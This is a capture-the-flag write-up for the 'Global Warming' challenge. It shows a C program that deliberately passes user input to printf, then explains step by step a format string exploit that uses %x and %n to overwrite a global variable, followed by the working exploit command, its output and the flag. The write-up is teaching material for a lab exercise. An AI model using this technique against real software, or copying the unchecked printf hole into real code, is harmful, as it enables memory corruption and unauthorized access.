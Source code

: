 # Global Warming

Author: [AJ1479](https://github.com/AJ1479)

## Description

String format exploit to overwrite global variable.

## Requirements

- Basic Knowledge of format string exploit.
- Docker: [Dockerfile](./Dockerfile)

## Sources

- [global-warming](./bin/global-warming): Binary

```c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>

int admin = 0;

void login(char username[10],char* pass)
{

	printf(pass);
	if(admin != 0)
	{
		system("cat flag.txt");
	}
	else 
	{
		printf("You cannot login as admin.");
	}
}

int main(int argc, char **argv)
{
	setbuf(stdout, NULL);
        setbuf(stdin, NULL);
        setbuf(stderr, NULL);
	login("User",argv[1]);
}
```

```
Greta Thunberg 1 Administration 0
```

## Exploit

The program has a global variable `admin`, the value of which needs to be changed. Looking at the program we see a printf statement, printing our input in argv[1]. Here, we need to use the string format exploit. We use `%x` as the format string input which returns values from the stack. We're also going to use the `%n` which writes the number of characters before the `%n` to the address just above(before) it in the stack. Also, memory addresses of global variables are stored in can be easily read from the `objdump` of the binary.
<br />

Steps to solve the challenge:
1) Find out the memory address of `admin` using the command `objdump -t <binary of file>` this is where we need to write a non-zero value.
2) Input a bunch of `%x`s to the program that will print values off of the stack.
3) If you print enough number of `%x `s (It's a good idea to put a space after the `%x` to make printed values more readable), you get a recurring pattern (something like 25207825 78252078) and you realise you're seeing the `%x`s (something you can probably figure out by the 25s which stand for blank spaces).\
4) What you need to do is to ensure that the last byte you print is the memory address of `admin` as you want to modify the value stored there. You do this by using recognizable characters and some trial and error; changing the number of `%x `s
5) When you reach this point you can replace the last `%x ` with `%n ` which should overwrite the value of `admin` with some number (the number of characters printed before it) and give you the flag.
<br />

```bash
$ ./global-warming "`python -c "print 'AAAA\x28\xa0\x04\x08' + '%x '*142+'%n '"`"
AAAA(0 2000 8048502 f7fa6d80 804a000 ffffd3e8 80485c6 8048688 ffffd5d8 ffffd4a0 8048564 2 ffffd494 ffffd4a0 ffffd400 0 f7fa6000 0 f7de9e91 f7fa6000 f7fa6000 0 f7de9e91 2 ffffd494 ffffd4a0 ffffd424 1 0 f7fa6000 f7fe577a f7ffd000 0 f7fa6000 0 0 9de4600d df70c61d 0 0 0 2 80483e0 0 f7feadc0 f7fe59d0 804a000 2 80483e0 0 8048412 804854c 2 ffffd494 80485e0 8048640 f7fe59d0 ffffd48c f7ffd940 2 ffffd5c7 ffffd5d8 0 ffffd78e ffffdd7a ffffddac ffffddce ffffdddb ffffddef ffffde02 ffffde0e ffffde24 ffffde36 ffffde56 ffffde79 ffffdeba ffffdecd ffffdee3 ffffdeee ffffdefe ffffdf06 ffffdf15 ffffdf34 ffffdfb4 ffffdfd4 0 20 f7fd5070 21 f7fd4000 10 f8bfbff 6 1000 11 64 3 8048034 4 20 5 9 7 f7fd6000 8 0 9 80483e0 b 3eb c 3eb d 3eb e 3eb 17 0 19 ffffd5ab 1a 0 1f ffffdfe7 f ffffd5bb 0 0 0 ce000000 30df01aa 73f93126 34fcc4c2 695d916f 363836 0 2e000000 6f6c672f 2d6c6162 6d726177 676e69 41414141  csictf{n0_5tr1ng5_@tt@ch3d}
```

The flag is:

```
csictf{n0_5tr1ng5_@tt@ch3d}
```